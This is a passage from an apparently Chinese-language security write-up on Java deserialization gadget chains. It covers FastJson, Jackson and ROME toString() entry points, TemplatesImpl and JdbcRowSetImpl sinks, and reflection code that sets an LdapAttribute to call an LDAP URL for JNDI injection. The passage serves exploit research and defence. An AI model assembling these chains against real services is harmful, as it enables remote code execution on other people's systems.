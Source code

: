 调用栈如下

另外这条链很多地方都可以替换

#### 中间部分

`FastJson的JSONObject类 或 Jackson的POJONode类 或 ROME的ToStringBean类`中放好目标类即可

#### toString()-&gt;sink

##### TemplatesImpl#getOutputProperties

**JDK原生可用**

这条链早在CC和CB中就用到过，故不多作介绍

三组件均可用，但结合**Rome、Jackson**使用时需要一些特殊处理，详见后文

##### JdbcRowSetImpl#getDatabaseMetaData

**JDK原生可用**

```
Object obj = newInstance("com.sun.jndi.ldap.LdapAttribute", new Class&lt;?&gt;[]{String.class},"id");
        setFieldValue(obj, "baseCtxURL", "ldap://127.0.0.1:13562");
        setFieldValue(obj, "rdn", new CompositeName("whocansee"+"//b"));

    public static Object newInstance(String classname, Class&lt;?&gt;[] paramTypes, Object... args) throws NoSuchMethodException, ClassNotFoundException, IllegalAccessException, InvocationTargetException, InstantiationException {
        return getConstructor(classname, paramTypes).newInstance(args);
    }
    public static Constructor&lt;?&gt; getConstructor(String classname, Class&lt;?&gt;[] paramTypes) throws ClassNotFoundException, NoSuchMethodException {
        Constructor&lt;?&gt; ctor = Class.forName(classname).getDeclaredConstructor(paramTypes);
        ctor.setAccessible(true);
        return ctor;
    }
    public static void setFieldValue(final Object obj, final String fieldName, final Object value) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        if(field != null) {
            field.set(obj, value);
        }
    }
    public static Field getField(final Class&lt;?&gt; clazz, final String fieldName) {
        Field field = null;
        try {
            field = clazz.getDeclaredField(fieldName);
            field.setAccessible(true);
        } catch (NoSuchFieldException ex) {
            if (clazz.getSuperclass() != null)
                field = getField(clazz.getSuperclass(), fieldName);
        }
        return field;
    }
```

